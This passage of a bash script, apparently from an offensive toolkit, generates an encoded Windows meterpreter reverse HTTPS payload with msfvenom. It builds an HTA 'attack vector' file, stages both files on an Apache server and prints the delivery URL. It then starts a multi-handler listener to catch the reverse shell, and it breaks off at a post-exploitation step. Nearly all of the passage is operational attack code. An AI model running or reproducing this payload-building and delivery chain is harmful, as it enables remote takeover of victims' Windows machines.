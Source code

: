      #
     # Config correct payload arch selected ..
     #
     if [ "$paylo" = "windows/x64/meterpreter_reverse_https" ]; then
       ArCh="x64"
     else
       ArCh="x86"
     fi
    msfvenom -p $paylo LHOST=$LhOsT LPORT=$LpOrT PayloadUUIDTracking=true HandlerSSLCert=$IPATH/output/$N4M3.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedStageless --platform windows --smallest -e $ENCODE -i $ENCODE_NUMB -a $ArCh -f exe -o paranoid-stageless.exe
    sleep 2

    #
    # Use HTA attack vector to deliver the agent ..
    #
    if [ "$HtA" = "ON" ]; then
      echo ${BlueF}[☠]${white} HTA attack vector sellected ..${Reset};
      cd $IPATH/bin
      sleep 2
        #
        # Building HTA trigger file ..
        #
        echo ${BlueF}[☠]${white} "Building hta trigger file" ..${Reset};
        sleep 2
        sed "s|LhOsT|$LhOsT|" EasyFileSharing2.hta > trigger.hta
        sed -i "s|NaMe|paranoid-staged.exe|g" trigger.hta
        mv trigger.hta $ApAcHe/EasyFileSharing.hta > /dev/null 2>&1
        cp $IPATH/output/paranoid-staged.exe $ApAcHe/paranoid-staged.exe > /dev/null 2>&1
      #
      # Start apache2 service ..
      #
      /etc/init.d/apache2 start | zenity --progress --pulsate --title "☠ PLEASE WAIT ☠" --text="Starting apache2 webserver" --percentage=0 --auto-close --width 300 > /dev/null 2>&1
      # Present URL (attack vector) to user
      echo ${BlueF}"Attack vector: http://$LhOsT/EasyFileSharing.hta" ${Reset};
      sleep 2
      cd $IPATH
    fi


  #
  # Create a stageless Paranoid Listener (multi-handler)..
  #     
  # A stageless payload would need to set the HandlerSSLCert and
  # StagerVerifySSLCert true options to enable TLS pinning:
  echo ${BlueF}[☠]${white} Start multi-handler ..${Reset};
  if [ "$ExEc" = "YES" ]; then
    # Run post-exploitation module 